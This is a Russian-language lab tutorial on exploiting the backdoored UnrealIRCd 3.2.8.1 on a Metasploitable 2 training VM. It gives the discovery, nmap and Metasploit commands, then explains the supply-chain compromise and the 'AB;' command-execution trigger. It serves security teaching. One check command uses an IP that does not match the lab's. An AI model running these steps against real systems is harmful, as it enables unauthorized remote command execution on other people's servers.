



Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
6667/tcp open irc UnrealIRCd
Видим на порту 6667 работает сервер UnrealIRCd (скриншот ниже).

Или можем дать прямую команду nmap обнаружить что находится на порту 6667:
nmap -sV -p 6667 10.0.2.3

В терминале Kali запускаем метасплоит:
msfconsole
Даем команду метасплоит найти все модули ircd:
msf > search unreal ircd
Выбираем найденный модуль:
0 exploit/unix/irc/unreal_ircd_3281_backdoor
Даем команды:
msf > use 0
msf > set RHOSTS 10.0.2.3
msf > set LHOST 10.0.2.4
msf > exploit
В итоге получаем сессию meterpreter и можем начинать вводить команды для удаленной машины.

Этот модуль:
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
Предназначен для эксплуатации известной исторической уязвимости в зараженной версии UnrealIRCd 3.2.8.1, которая специально включена в учебную виртуальную машину Metasploitable 2.
Если на целевой машине действительно работает уязвимая версия UnrealIRCd, Metasploit попытается выполнить команду через встроенный бэкдор и открыть командную оболочку.
Перед запуском стоит проверить
Что сервис IRC действительно запущен:
nmap -sV -p 6667 192.168.79.179
Что обнаружена именно UnrealIRCd 3.2.8.1.
Если IRC работает на другом порту (например, 6697), изменить:
set RPORT 6697
По умолчанию модуль использует порт 6667.
Это один из самых известных случаев в истории информационной безопасности. Интересен он тем, что уязвимость появилась не из-за ошибки программистов, а потому что злоумышленники подменили официальный архив программы на зараженный.
Что такое UnrealIRCd?
UnrealIRCd (Internet Relay Chat daemon) — это программа-сервер для сети IRC (Internet Relay Chat).
IRC — один из самых старых протоколов общения в Интернете, появившийся еще в конце 1980-х годов.
Когда люди подключаются к IRC, они подключаются не друг к другу, а к серверу IRC.
Например: Алиса │ │ ▼ UnrealIRCd ▲ │ Боб
Сервер UnrealIRCd:
принимает подключения;
создает каналы (#linux, #games);
пересылает сообщения;
хранит информацию о пользователях;
соединяется с другими IRC-серверами.
Именно этим и является UnrealIRCd.
Что произошло в 2010 году?
Самое интересное.
Обычно разработчики выпускают архив:
Unreal3.2.8.1.tar.gz
Пользователь скачивает его ↓ компилирует ↓ получает сервер IRC.
Но примерно с ноября 2009 по июнь 2010 года злоумышленники получили доступ к одному из зеркал загрузки проекта и заменили архив на модифицированную версию с трояном (бэкдором). Многие администраторы установили именно эту зараженную копию, считая её официальной
То есть произошло следующее:
Разработчики
│
│
официальный архив
│
▼
Хакер
│
│ заменил архив
▼
зараженный архив
Администратор скачивал:
официальный сайт
но внутри уже была вредоносная версия.
Что такое бэкдор?
Бэкдор (Backdoor) — это секретный способ получить доступ к программе, о котором обычный пользователь не знает.
Что было добавлено в UnrealIRCd?
В код программы добавили проверку входящих данных.
Если сервер получал сообщение, начинающееся с
AB;
то вместо обычной обработки IRC-команды он передавал всё, что шло после этого префикса, операционной системе для выполнения с правами процесса сервера. Именно поэтому Metasploit может получить выполнение команд на уязвимом сервере. Именно это и стало бэкдором.
Как это использует Metasploit?
Когда мы запускаем
exploit/unix/irc/unreal_ircd_3281_backdoor
происходит примерно следующее.
Шаг 1
Metasploit открывает TCP-соединение.
Metasploit
│
│ TCP
▼
6667
Шаг 2
Отправляет специально сформированное сообщение.
Смысл сообщения:
AB; <команда для ОС>
Шаг 3
Сервер получает данные.
Получено: AB; ...
Шаг 4
В коде срабатывает проверка.
if начинается с AB;
Шаг 5
Вместо обработки IRC-команды программа запускает указанную команду в операционной системе.
Шаг 6
Metasploit получает подтверждение, что команда выполнилась, и при успешной эксплуатации открывает интерактивную оболочку.
Схематично это выглядит так:
exploit
Metasploit
│
│
▼
UnrealIRCd
│
│ обнаружил "AB;"
▼
Linux Shell
│
▼
выполнение команды
Почему это настолько известная история?
Потому что это была не ошибка в самом коде UnrealIRCd, а атака на цепочку поставки (Supply Chain Attack). Разработчики не добавляли этот бэкдор — злоумышленники подменили официальный архив, который скачивали пользователи. Сейчас этот случай часто приводят как один из классических примеров компрометации цепочки поставки программного обеспечения.
Именно поэтому уязвимость до сих пор включают в учебные системы вроде Metasploitable 2: она хорошо показывает, что иногда опасность возникает не из-за ошибки разработчика, а из-за компрометации процесса распространения программ.